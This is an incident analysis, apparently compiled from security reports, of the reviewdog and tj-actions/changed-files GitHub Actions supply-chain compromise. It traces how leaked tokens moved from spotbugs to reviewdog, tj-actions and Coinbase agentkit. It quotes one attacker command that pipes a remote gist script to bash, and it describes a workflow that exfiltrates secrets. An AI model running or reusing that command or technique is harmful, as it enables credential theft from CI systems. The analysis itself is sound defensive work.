








# reviewdog and tj-actions compromise

The “pull request” trigger runs workflows in a limited context, particularly for forked PRs. Secrets and write permissions are withheld, so you can safely run tests on external code without giving it dangerous access.

The “pull request target” trigger runs workflows in the maintainer’s context, with repository secrets and permissions. This is useful if you want to label PRs, comment, or do things that require elevated privileges—but the danger is that if the workflow checks out and runs untrusted PR code, it’s now running with those secrets and permissions.

On 2024-11-28T09:45:13 UTC SPTBGS_MNTNR(GitHub user) modified one of the spotbugs/sonar-findbugs workflows to use their own PAT, as they were having technical difficulties in a part of their CI/CD process.

In the image, the maintainer switched from using the GitHub-provided token to a personal access token.

The pull request payload modified the repository's mvnw file, which was later used during the CI’s invocation.

The mvnw file is usually a simple shell script (or a batch script on Windows) that calls the Maven Wrapper JAR. It checks if a specific Maven version is available locally; if not, it downloads it and then runs the build.

The attacker injected a malicious command into this script

curl -sSfL https://gist.githubusercontent.com/randolzfow/aa451dfb48c3bc982aeeb5163261f2f4/raw/4171c8ee0e3ca53d249ff340da772d63567fb58e/run.sh | bash > /dev/null 2>&1

Once the attacker’s code got injected—thanks to the pull request target workflow executing in the maintainer’s context—any subsequent build using the wrapper would run that malicious command

It was confirmed with SPTBGS_MNTNR that the PAT that was used as a secret in this workflow was the same PAT that later invited jurkaofavak to the spotbugs/spotbugs repository, a disposable, malicious user.

jurkaofavak pushed a malicious GitHub Actions workflow file to the spotbugs/spotbugs repository, creating a malicious workflow run in the context of the repository. The attacker used this malicious workflow to leak all spotbugs/spotbugs secrets, which included RD_MNTNR's PAT. RD_MNTNR was an active maintainer in reviewdog, this maintainer was also taking an active part in other open-source projects, one of which was spotbugs.

Once running, the workflow stringified all the available secrets, encrypted them with AES (symmetric encryption) and encrypted the symmetric key using a hard-coded RSA public key (asymmetric encryption). This ensured that the encrypted leaked secrets and their encryption key could only be decrypted and read by the attacker. The workflow then continued to upload this data as a workflow artifact, which the attacker could later download.

https://github.com/spotbugs/spotbugs/commit/f5434e31b6259b4e08684618a305bae127b6d784#diff-faff1af3d8ff408964a57b2e475f69a6b7c7b71c9978cccc8f471798caac2c88

At the time of the attack, RD_MNTNR's PAT had sufficient permissions to push tags to the reviewdog/action-setup repository. This allowed the attacker to override the v1 tag in the repository and point it to the malicious commit (b833eecd) that originated in a fork by a user named iLrmKCu86tjwp8. By doing this, the attacker impacted any consumers of the v1 tag of the reviewdog/action-setup repository

The tj-actions/eslint-changed-files action directly depended on the reviewdog/action-setup action, and used it in its runtime as a composite action. When the tj-actions/eslint-changed-files action was executed, the tj-actions/changed-files CI runner’s secrets were leaked, allowing the attackers to steal the credentials used in the runner, including a Personal Access Token (PAT) belonging to the tj-bot-actions GitHub user account.

In the tj-actions/changed-files infection, we saw that the attacker infected the index.js file via a “legitimate” pull request.

In addition to the pull request infiltration, the attacker used the token to update the existing git tags of the tj-actions/changed-files repository, making all tags point to the malicious 0e58ed8 commit.

This eventually led to code execution in the CI runners of any GitHub action or workflow using this action, and referencing it by one of these tags.

The attacker used three dummy accounts to perform the preparations and testing: iLrmKCu86tjwp8, 2ft2dKo28UazTZ and mmvojwip. Both of these accounts were also deleted from GitHub.

When we inspected the behavior of the 2ft2dKo28UazTZ user, we saw that although it forked the tj-actions/changed-files, it was used differently. Unlike the iLrmKCu86tjwp8 user, 2ft2dKo28UazTZ was used to test the creation and deletion of git tags.

The third user that was identified, mmvojwip, forked tj-actions/changed-files as well, but did not interact in any way with its fork.

When we searched for what activities the 2ft2dKo28UazTZ and mmvojwip users performed, we noted that they had created the following forks:

2025-03-12 15:28:44 → 2ft2dKo28UazTZ forks coinbase/onchainkit

2025-03-12 15:29:04 → 2ft2dKo28UazTZ forks coinbase/agentkit

2025-03-12 15:32:02 → 2ft2dKo28UazTZ forks coinbase/x402

2025-03-13 20:36:02 → mmvojwip forks coinbase/agentkit

2025-03-13 21:04:58 → mmvojwip forks coinbase/agentkit again

When we further inspected the activity of 2ft2dKo28UazTZ within its fork of coinbase/agentkit, we saw that it was mainly creating pull requests from its own branches to itself. It was updating the .github/workflows/changelog.yml file or experimenting with releasing the nightly-20250311 tag.

When we looked in coinbase/agentkit we didn’t find any indications of a compromise in the nightly-20250311 tag, but oddly, we found that the changelog.yml file was actually deleted by the maintainer on March 14. Although it was deleted, we could see that the workflow referenced v39 of tj-actions/changed-files, which is the exact same tag the actor was fiddling with in their own fork. This also strengthened our suspicion that the attacker had targeted Coinbase.

we started looking into the actions of the mmvojwip user, while also fetching the deleted workflow logs of the changelog.yml workflow in coinbase/agentkit via the GitHub API.

In the same way as described in the initial compromise, the user created a fork with their changes.

The full list of commits is provided in the Indicators of Compromise section, but three commits in particular stood out:

coinbase / agentkit - Commit 8edc60f

coinbase / agentkit - Commit b3a1c72

coinbase / agentkit - Commit b39e2d4

All of these commits changed the reference of tj-actions/changed-files to or from SHA 6e6023c01918b353229af0881232f601a4cc8365. When we accessed that commit, we saw that it was another dangling commit as shown in Figure 5. This time, it was impersonating (or abusing) the github-actions[bot].

It is important to note that at this point, the actor had write permissions to the tj-actions/changed-files repository and could push arbitrary commits or branches, impersonating any user and staying under the radar.

When we looked into the payload of this commit, we found a payload that was yet to be revealed. This payload demonstrates the connection between the actor, tj-actions/changed-files and coinbase/agentkit

The details in this commit prove that the attacker was looking specifically for the Coinbase repository.

At this point, we approached Coinbase and also started searching for the commit inside the workflow logs of coinbase/agentkit, to see whether their workflow had pulled the tj-actions/changed-files@v39

We also identified that this workflow was executed with write-all permissions in the repository, allowing sensitive actions to be performed, possibly allowing the introduction of malicious code into the coinbase/agentkit repository’s codebase.

Attack Flow Summary

Now that the above was laid out, we could map the full attack from its inception. This is demonstrated visually in Figure 14.

The attackers abused a workflow in the spotbugs/sonar-findbugs repository

This workflow used the pull_request_target trigger to leak the PAT of a spotbugs maintainer

This PAT also had access to spotbugs/spotbugs

After obtaining the spotbugs maintainer’s PAT, the attackers created and invited a disposable, malicious user (jurkaofavak) to be a member in the spotbugs/spotbugs repository

jurkaofavak pushed a branch with a malicious workflow that triggered a GitHub Actions run and immediately deleted the branch

The malicious workflow invocation in spotbugs/spotbugs leaked the PAT of a reviewdog maintainer; in this case, a maintainer of both spotbugs/spotbugs and reviewdog/action-setup

The leaked PAT had permissions to both of these repositories

The attacker used the reviewdog maintainer’s stolen PAT to override reviewdog/action-setup’s v1 tag, causing it to point to a malicious commit that was done in a fork by the malicious user iLrmKCu86tjwp8

After this, tj-actions/changed-files’s CI workflow was invoked

This workflow uses the tj-actions/eslint-changed-files GitHub action as a pipeline dependency, which in turn depends on and runs the malicious code at reviewdog/action-setup

The malicious code stole a GitHub token that had write permission to tj-actions/changed-files

Using this token, the attacker overrode a tag in tj-actions/changed-files, making it point to a malicious commit done in a fork by the malicious user mmvojwip, specifically targeting the coinbase/agentkit repository

Next, coinbase/agentkit’s CI workflow executed, consuming the malicious tag from tj-actions/changed-files and leaking the credentials to the attacker

Coinbase was alerted by a third-party researcher that its CI was consuming malicious code, and it removed the vulnerable workflow

The attacker overrode all tags in tj-actions/changed-files, making them point to a malicious commit, resulting in all workflow secrets being printed to the log by consumers of tj-actions/changed-files

On March 19 at 18:28, Unit42 emailed the Coinbase maintainer who deleted the changelog.yml workflow to ascertain whether the maintainer removed the workflow on their own initiative, and if they were aware of the leak.

By 19:15 the maintainer replied that indeed they had removed the workflow following a security report and had remediated the attack.

We followed up by sharing more details of our findings with Coinbase, which stated that the attack was unsuccessful at causing any damage to the agentkit project, or any other Coinbase asset.

Sources
 https://github.com/reviewdog/reviewdog/issues/2079
 https://unit42.paloaltonetworks.com/github-actions-supply-chain-attack/#update-4-2-25
 https://www.wiz.io/blog/new-github-action-supply-chain-attack-reviewdog-action-setup
 https://www.stepsecurity.io/blog/reviewdog-github-actions-are-compromised

